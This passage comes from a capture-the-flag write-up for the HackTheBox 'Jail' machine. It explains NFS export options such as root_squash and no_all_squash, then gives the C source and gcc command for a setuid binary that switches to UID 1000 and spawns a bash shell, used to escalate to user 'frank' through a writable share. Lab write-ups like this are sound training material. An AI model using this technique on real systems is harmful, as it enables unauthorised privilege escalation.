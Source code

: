 ![exports-39](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/exports-39.png)


Here is the breakdown:

+ `rw`: Mount the share with read/write permissions.

+ `root_squash`: Even if root is the user accessing the files on the remote machine, treat them as the default user from the local machine (The reason we didn't have access to the share as root).

+ `no_all_squash`: Translate all the user permissions from the remote machine to the local machine. Meaning that, *files writting to the share from a UID of 1000, will be woned by UID 1000 on the local machine* (The reason we can only write to the share as `ice`).


This piece of information is huge, this means that we can effectively create files on the target machine as `frank` from our attack machine. 


To exploit this, we need to write a simple setUID binary, compile it, and place it in the `nfsshare` as `ice`. Then, we can execute it from `jail` as `nobady` to spwan a shell as `frank`.


In order for me to pull this off, I had to use an old CentOS VM I had, due to compatibility issues with the glibc version on `jail`. My CentOS and GCC info:

```bash
bash$ uname -r
3.10.0-1160.90.1.el7.x86_64
bash$ gcc --version
gcc (GCC) 4.8.5 20150623 (Red Hat 4.8.5-44)
```

In this box, I created the following setUID file:

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setresuid(1000, 1000, 1000);
    system("/bin/bash");
    return 0;
}
```

I compiled it using the follwing command:

```bash
gcc frank.c -o frank
```
